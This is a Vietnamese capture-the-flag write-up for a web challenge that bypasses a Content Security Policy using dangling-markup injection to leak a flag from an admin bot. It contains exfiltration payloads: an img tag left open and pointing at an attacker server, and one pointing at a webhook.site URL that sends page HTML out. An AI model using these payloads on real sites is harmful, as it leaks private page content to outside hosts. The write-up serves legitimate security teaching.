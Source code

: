 ```diff  
-  Web -  Client Challenges 
```

## 2. CSP Bypass -  Dangling markup 2 [50 Points]

  - Cũng như challenge trên, ta có trang web như sau

    ![2](img/2.jpg)

  - Trang web sẽ hiện thị ra dòng chữ **Welcome** cùng với các ký tự mà ta nhập vào

    ![2-1](img/2-1.jpg)

  - Thử với payload ```Reflect XSS``` đơn giản ta thấy nó bị chặn bởi **Content Security Policy**

    ![2-2](img/2-2.jpg)

  - Kiểm tra CSP của trang ta thấy nó không cho phép thực thi script trong trang (giá trị none nghĩa là nó không fetch dữ liệu script từ bất kỳ nguồn nào hết)

    ![2-3](img/2-3.jpg)

  - Thử kiểm tra độ an toàn của CSP bằng trang web [CSP Evaluator](https://csp-evaluator.withgoogle.com/) ta có kết quả như sau

    ![2-4](img/2-4.jpg)

  - Như hình trên, ta sẽ thấy rằng tất cả các Policy đều an toàn, chỉ có dòng cuối gợi ý cho ta về DOM-Based XSS. Thử payload DOM-Based XSS ta thấy có thể khai thác được

    ![2-5](img/2-5.jpg)

  - Tới đây, dựa vào tiêu đề và gợi ý trên, ta có thể biết rằng đây là DOM-Based XSS dựa vào kỹ thuật *Dangling Markup* . Sau khi search google về kỹ thuật này, ta có thể thấy nó được mô tả chi tiết ở [đây](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) gồm cả khái niệm và cách khai thác.

  - Cụ thể, *Dangling markup* là khi attacker chèn 1 thẻ html vào DOM mà không đóng các attribute của thẻ đó lại, để nó 'treo lủng lẳng' như sau:

    ```html 
    <img src='attacker-server.com/
    ```  

    Khi trình duyệt render phản hồi, nó sẽ duyệt các ký tự tiếp theo của thẻ trên, đến khi gặp dấu single quote (```'```) tiếp theo thì dừng lại, các ký tự vừa được duyệt sẽ trở thành một phần của đường dẫn cho thuộc tính ```src```. Khi giao diện được render, request từ ```src``` được gửi tới server của attacker, họ sẽ đọc được 1 phần nội dung của trang web mà đáng ra họ không thể thấy.

  - Quay lại vấn đề cũ, để thực thi được DOM-Based XSS và gửi request ra ngoài, ta áp dụng **Dangling markup** sử dụng một thẻ html nào đó có thể gửi request tới đường dẫn chỉ định. 

    Ta thử với thẻ ```img``` và thấy rằng nó gửi một request tới webhook của mình kèm theo tham số là chuỗi html đằng sau 
    ```diff
    - Payload: </h1> <img src='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?
    ```
    Giải thích payload:
    - Phần ```</h1>``` là để bypass thẻ <h1> sẵn có của DOM mà ta inject
    - Thẻ img em áp dụng Dangling Markup, phải sử dụng Single Quote thay vì Double Quote vì ta mong muốn đọc được nội dung đến dấu ' tiếp theo (chỗ icon) chứ không phải dấu " tiếp theo -> Nhằm mục đích đọc được đoạn có chứa Flag
    Kết quả như sau

    ![2-6](img/2-6.jpg)

  - Vào phần ***fill in this form*** và gửi link vulnerable trên đến con bot, khi nó mở đường link thì thẻ ```img``` sẽ tự động gửi request tới webhook của chúng ta, kèm theo chuỗi html đằng sau. Nhờ đó ta có thể thấy được đoạn html chứa flag mà bot thấy được.

  - Tuy nhiên, đợi 10p vẫn không thấy request tới, em đã kiểm tra lại và thấy thuộc tính ```src``` không nhận ký tự xuống dòng 

    ![2-7](img/2-7.jpg)

  - Em đã tìm kiếm xem còn thuộc tính nào tự động gửi request tương tự src không, thì tìm thấy được thuộc tính background trong table

    ![2-8](img/2-8.jpg)

  - Test thử và thấy nó nhận cả các ký tự xuống dòng làm đường dẫn

    ![2-9](img/2-9.jpg)

  - Cuối cùng ta gửi payload lại và nhận được flag như ta tính.

    ![2-10](img/2-10.jpg)



```diff
- Flag: D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE
```

